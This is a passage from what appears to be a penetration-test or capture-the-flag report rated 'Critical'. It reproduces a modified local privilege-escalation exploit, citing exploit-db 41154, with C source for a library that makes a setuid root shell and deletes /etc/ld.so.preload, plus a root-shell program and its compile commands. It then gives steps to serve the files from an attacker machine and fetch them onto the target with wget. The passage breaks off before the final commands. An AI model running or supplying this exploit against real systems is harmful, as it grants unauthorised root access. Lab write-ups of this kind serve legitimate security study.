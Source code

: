 **Severity:** Critical

\newpage

**Exploit Code:**

reference: *https://www.exploit-db.com/exploits/41154*

(modified) compile exploit code:

```bash

cat << EOF > libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("rootshell", 0, 0);
    chmod("rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

gcc -fPIC -shared -ldl -o libhax.so libhax.c

cat << EOF > rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -o rootshell rootshell.c

```


spin up an http server on the attacker machine:

```python
python3 -m http.server 8000
```

on the target machine, download the code and copy to the */tmp* directory:

```bash
wget http://10.10.14.3:8000/libhax.so
wget http://10.10.14.3:8000/rootshell
```

run the following commands on the target machine:

